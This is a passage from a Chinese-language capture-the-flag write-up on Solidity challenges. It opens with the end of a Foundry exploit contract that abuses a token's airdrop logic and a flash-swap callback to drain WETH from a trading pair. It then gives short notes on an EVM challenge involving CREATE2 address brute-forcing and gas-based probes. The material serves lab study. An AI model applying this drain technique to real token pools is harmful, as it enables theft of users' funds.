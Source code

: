             // 给自己转 1 份
            uint160 hack_seed = uint160(uint160(address(this)) | block.number) ^ uint160(address(this)) ^ uint160(address(this));
            achilles.transfer(address(hack_seed), 0);
            console.log("[*] achilles token in hack: ", achilles.balanceOf(address(this)));

            // 此时 achilles pool 为 1，WETH 为 1000
            pair.sync();
            // 再关闭 airdrop
            achilles.Airdrop(0);
            // swap input
            achilles.transfer(address(pair), 1);

            // 提取 weth
            console.log("[*] achilles token in pool: ", achilles.balanceOf(address(pair)));
            pair.swap(0, 100 ether, address(this), "");

            // 最终结果
            console.log("[*] weth token in hack: ", weth.balanceOf(address(this)));
            bool success = setup.isSolved();
            console.log("[*] success: ", success);
        }

        function check() public view returns (bool) {
            return setup.isSolved();
        }

        function pancakeCall(address _sender, uint _amount0, uint _amount1, bytes calldata _data) public {
            // 设置 airdrop
            achilles.Airdrop(1);
            // 还钱
            achilles.transfer(address(pair), 999 ether);
        }
    }
    ```


## Foo

evm 特性题

### Setup

需要满足 `addr % 1000 == 137`，使用 create2Addr 枚举爆破就行，但需要注意的是不能循环太多次，不然 gas 不够用。

### Stage 1

需要通过 static_call 来返回不同的值，用热查询与冷查询所花费的 gas 不同来判断。

### Stage 2

计算 gas,先直接调用 stage2,看看 gas 的花费情况，然后在此基础上设置爆破。

```solidity
function _stage2() external payable returns (uint x) {
    unchecked {
        x = 1;
        try this._stage2() returns (uint x_) {
            x += x_;
        } catch {}
        uint256 gas = gasleft();
        console.log("stage2 gas and x:", gas, x);
    }
}
```
